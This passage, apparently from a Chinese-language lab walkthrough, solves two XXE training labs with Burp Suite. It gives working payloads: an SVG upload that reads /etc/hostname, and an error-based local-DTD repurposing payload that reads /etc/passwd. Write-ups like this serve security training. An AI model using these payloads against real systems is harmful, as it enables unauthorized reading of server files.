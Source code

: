 先创建一个svg图像包含以下payload：然后在评论区上传该svg文件：

```dtd
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

![image-20221108162155764](https://raw.githubusercontent.com/shungli923/PicGoImg/master/image-20221108162155764.png)

burp拦截后一包一包的放行出现如下界面：需要注意的是直接上传不用burp拦截一下不会成功。

![image-20221108162235603](https://raw.githubusercontent.com/shungli923/PicGoImg/master/image-20221108162235603.png)

帖子的评论区出现刚刚提交的评论

![image-20221108162457302](https://raw.githubusercontent.com/shungli923/PicGoImg/master/image-20221108162457302.png)

查看头像内容，便是请求的hostname的值，即为目标内容：

![image-20221108162645830](https://raw.githubusercontent.com/shungli923/PicGoImg/master/image-20221108162645830.png)





点击后输入并提交相应内容。

![image-20221108160641599](https://raw.githubusercontent.com/shungli923/PicGoImg/master/image-20221108160641599.png)

**成功通关！**

![image-20221108162751235](https://raw.githubusercontent.com/shungli923/PicGoImg/master/image-20221108162751235.png)



## Lab: Exploiting XXE to retrieve data by repurposing a local DTD

根据提示，这个靶场需要用到服务器本地的dtd文件：

![image-20221108163416762](https://raw.githubusercontent.com/shungli923/PicGoImg/master/image-20221108163416762.png)

浏览功能点后定位到可能存在xxe的数据包，发到repeater模块构造payload发起进攻！payload如下：

```dtd
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

成功获取到目标文件内容

![image-20221108163702636](https://raw.githubusercontent.com/shungli923/PicGoImg/master/image-20221108163702636.png)

**通关成功！**


[这里查看原理]: https://github.com/shungli923/WowBigBug/blob/main/%E5%9F%BA%E7%A1%80%E6%BC%8F%E6%B4%9E/XXE.md	"点击"